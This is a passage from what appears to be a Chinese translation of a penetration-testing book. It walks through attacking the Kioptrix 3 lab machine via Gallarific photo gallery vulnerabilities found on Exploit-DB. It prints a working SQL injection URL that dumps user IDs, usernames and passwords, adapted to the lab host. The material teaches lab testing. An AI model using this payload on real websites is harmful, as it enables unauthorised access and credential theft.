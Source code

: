 请记住该过程：找出正在运行的内容，确定是否正确设置和/或是否存在已知漏洞，然后进行测试。

前往[http://www.exploit-db.com](http://www.exploit-db.com) 并搜索 GALLARIFIC。目前的结果如下：

![Using WebScarab as a HTTP proxy](img/7744_05_27.jpg)

对于这个简单的应用程序，我们有三种不同的漏洞利用方式可供选择。这还不包括我们能够使用自动化工具定位的本地文件注入。如果您选择列表中的第一项，即**GALLARIFFIC PHP 照片库**漏洞，您将看到提交该漏洞的人甚至很好地将指向[管理面板的路径包括在内 http://kioptrix3.com/gallery/gadmin/](http://kioptrix3.com/gallery/gadmin/) ，以防我们在之前的扫描结果中遗漏了它（还记得看到关于某件有趣的事情被注释掉的通知：`<!-- a href="gadmin">Admin</a>&nbsp; &nbsp; -->`？

### 注

请记住，您的回溯机器上已经存在漏洞数据库！如果您是在一个分段网络上，那么您就没有理由留下来删除利用代码或概念验证说明。你的机器上已经有了！

如果您正确执行 Gallarific 搜索，您还将发现其他漏洞。以下是一些相关的 CVE 参考：

*   CVE-2008-1326
*   CVE-2008-1327
*   CVE-2008-1464
*   CVE-2008-1469
*   CVE-2008-6567

    ### 提示

    位于[的 OSVDB（开源漏洞数据库）http://osvdb.org/](http://osvdb.org/) 也是查找软件漏洞信息的重要资源。如果您发现一个易受攻击的软件版本，您很可能还会发现任何相关的概念验证代码（如果存在），因为利用数据库团队已花费大量精力确保其 CVE 连接到 OSVDB。

现在看一下漏洞利用定义，我们看到提供了如下示例代码（由于 AtT4CKxT3rR0r1ST 向 `Exploit-DB.com):`提交了此概念验证漏洞利用代码，因此应予以表扬）

```
www.site.com/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users-- 

```

### 提示

关闭拦截，除非您想确认每个响应。

当然，为了使用这个例子，我们需要做一些修改。首先，我们需要更正[www.site.com](http://www.site.com)条目。将其替换为 `kioptrix3.com`。然后，我们需要添加我们的画廊子文件夹，以便我们找到正确的网站：

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users-- 

```

如果您尝试此代码，您会发现它没有按计划工作。我们需要回到我们的 web 应用程序测试基础，并确定问题是什么。让我们在这里尝试一下，看看会发生什么。我们将简化查询，看看它是否有效。

```
http://kioptrix3.com/gallery/gallery.php?id=null%20and%201=2%20union%20select%201,2,3,4,5,6,7,8 

```
